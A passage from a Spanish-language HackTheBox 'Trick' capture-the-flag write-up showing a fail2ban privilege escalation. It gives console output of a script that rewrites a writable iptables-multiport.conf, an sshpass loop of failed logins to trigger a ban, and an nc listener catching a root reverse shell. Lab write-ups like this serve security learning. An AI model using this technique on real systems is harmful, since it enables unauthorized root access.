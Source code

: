 > Puedes encontrar el script en mi repositorio [https://github.com/E1P0TR0](https://github.com/E1P0TR0/CVE-Machines_htb/blob/main/Auto-tool_Trick/f2b_privesc.sh)
{: .prompt-info}

Ahora solo lo ejecutamos y conseguimos la flag:

```console
michael@trick:/tmp$ ./privesc.sh 10.10.14.58 1234
-rw-r--r-- 1 michael michael 1401 Sep 13 02:42 /etc/fail2ban/action.d/iptables-multiport.conf
-rw-r--r-- 1 michael michael 1401 Sep 13 02:44 /etc/fail2ban/action.d/iptables-multiport.conf
[ ok ] Restarting fail2ban (via systemctl): fail2ban.service.

Make failed ssh requests in ATTACKER machine to activate fail2ban rules (maxretry = 5)
Example: for i in $(seq 1 6); do sshpass -p 'anything' ssh michael@10.10.11.166; done

Listen on IP 10.10.14.58 through PORT 1234 to receive the shell. (g.e nc -lvnp 1234)

michael@trick:/tmp$ 

─────────────────────────────────────────────────────────────────────────────────────────────────
❯ for i in $(seq 1 6); do sshpass -p 'anything' ssh michael@10.10.11.166; done
Permission denied, please try again.
Permission denied, please try again.
Permission denied, please try again.
Permission denied, please try again.
Permission denied, please try again.
Permission denied, please try again.
❯ nc -lvnp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.11.166.
Ncat: Connection from 10.10.11.166:36098.
bash: cannot set terminal process group (4074): Inappropriate ioctl for device
bash: no job control in this shell
root@trick:~# find / -name root.txt | xargs ls -l
find / -name root.txt | xargs ls -l
-rw-r----- 1 root root 33 Sep 12 22:13 /root/root.txt
```

> Aquí tienes un articulo muy detallado sobre **Fail2ban** [https://www.digitalocean.com/community/tutorials/how-fail2ban-works-to-protect-services-on-a-linux-server](https://www.digitalocean.com/community/tutorials/how-fail2ban-works-to-protect-services-on-a-linux-server)
{: .prompt-info}





















